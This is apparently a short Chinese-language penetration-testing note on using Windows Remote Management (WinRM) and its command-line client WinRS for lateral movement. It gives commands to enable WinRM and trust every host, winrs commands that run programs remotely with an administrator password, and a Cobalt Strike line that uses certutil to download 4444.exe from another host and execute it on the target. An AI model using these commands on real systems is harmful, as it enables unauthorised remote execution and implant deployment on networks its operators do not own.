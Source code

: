 # WinRM&WinRS
WinRM:windows远程管理,是一种允许管理员远程执行系统管理任务的服务
WinRS:内置的命令行工具,用于远程连接运行WinRM的服务器并执行大多数cmd命令

利用条件:  
1.win2012之前需手动开启winrm,之后默认开启
2.防火墙对5986,5985开饭
开启命令:
```
winrm quikconfig -q
winrm set winrm/config/Client @{TrustedHost="*"}
```

```

winrs -r:<服务器地址> -u:<用户名> -p:<密码> <命令>

# 执行远程命令
winrs -r:192.168.3.32 -u:administrator -p:"admin!@#45" "hostname"

# 使用加密连接 (HTTPS)
winrs -r:https://192.168.3.32:5986 -u:administrator -p:"admin!@#45" "systeminfo"

或直接返回shell

CS(返回不了shell):直接上线
winrs -r:192.168.3.32 -u:administrator -p:"admin!@#45" "cmd.exe /c certutil -urlcache -split -d https://192.168.3.31/4444.exe 4.exe & 4.exe"


```
其他解决:通过winrm.cmd来执行命令
![](vx_images/136098603967366.png)